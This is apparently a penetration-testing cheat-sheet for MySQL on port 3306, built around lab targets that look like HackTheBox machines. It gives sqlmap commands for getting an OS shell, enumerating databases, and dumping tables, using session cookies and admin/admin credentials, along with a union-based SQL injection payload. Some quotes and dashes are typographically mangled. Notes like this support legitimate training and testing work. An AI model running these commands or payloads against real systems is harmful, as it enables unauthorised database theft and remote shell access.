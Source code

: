 # Port 3306/tcp
## Stardard usage
 - MySQL
<hr>

### Automatic tools for sql injection
#### sqlmap
-  for http endpoint api query
-  Usage:
   -  Reverse shell
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9l638e7n8ovv03e" --os-shell
    ```
   -  Init scanning db
    ```bash
    sqlmap ${curl_param}
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’
    ```
    - Enumerating for the databases
    ```bash
    sqlmap ${curl_param} --dbs
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’ –dbs
    ```
    - Get tables from a db
    ```bash
    sqlmap ${curl_param} -D db_name –tables
    ```
    - Dump a tables
    ```bash
    sqlmap ${curl_param} -D db_name -T tb_name –dump
    ```

### SQL inject query
- Resource: https://book.hacktricks.xyz/pentesting-web/sql-injection
- Union-basd
    ```sql
    "test' and 1=2 UNION SELECT 1,sqlite_version(),3 -- -
    ```